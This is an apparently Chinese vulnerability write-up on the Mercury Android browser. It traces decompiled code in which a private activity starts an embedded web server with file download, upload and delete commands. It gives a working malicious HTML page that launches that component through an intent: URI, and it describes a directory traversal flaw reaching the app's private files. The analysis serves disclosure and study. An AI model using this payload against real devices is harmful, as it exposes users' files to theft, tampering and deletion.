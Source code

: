 ```
    public void onCreate(Bundle arg4) {
        super.onCreate(arg4);
        this.webServIntent = new Intent(this.getActivity(), WebService.class);
    }

```

至此，可知WFMActivity2被启动时，同时将启动一个与其绑定的一个WebService，该Service在OnBind方法中打开一个WebServer。

```
  public IBinder onBind(Intent arg2) {
        this.openWebServer();
        return this.mBinder;
    }

```

该WebServer注册了一些特定的URI路径，实现了下载dodownload、删除dodelete、上传doupload等命令。

![image](http://drops.javaweb.org/uploads/images/9a11b7ed768c8c70e78dd23424473be08e41708e.jpg)

3. 攻击私有组件WFMActivity2
---------------------

首先编写恶意网页启动WFMActivity2

```
<html>
    <head>
        <meta charset="utf-8" />
        <title>Trigger parseUri()</title>
    </head>
    <body>
        <script>
            location.href="intent:#Intent;SEL;component=com.ilegendsoft.mercury/.external.wfm.ui.WFMActivity2;action=android.intent.action.VIEW;end";
        </script>
    </body>
</html>

```

然后用水星浏览器访问该恶意网页，出现如下界面

![image](http://drops.javaweb.org/uploads/images/e14c9ff98966d1888c491a2d11fdf30f0009b223.jpg)

此时PC端已经能够访问webserver，并具有对手机中sdcard文件上传、下载和删除功能。

![image](http://drops.javaweb.org/uploads/images/5b177effbefbbc6fc00575a06d205ba59a879266.jpg)

4. 目录穿越漏洞
---------

默认情况下只能下载访问sdcard目录，但进一步的漏洞挖掘发现WFMActivity2打开的WebServer还具有目录穿越漏洞，可以通过dodownload和doupload命令以访问../../[程序私有目录] 的形式下载或上传私有目录的文件。
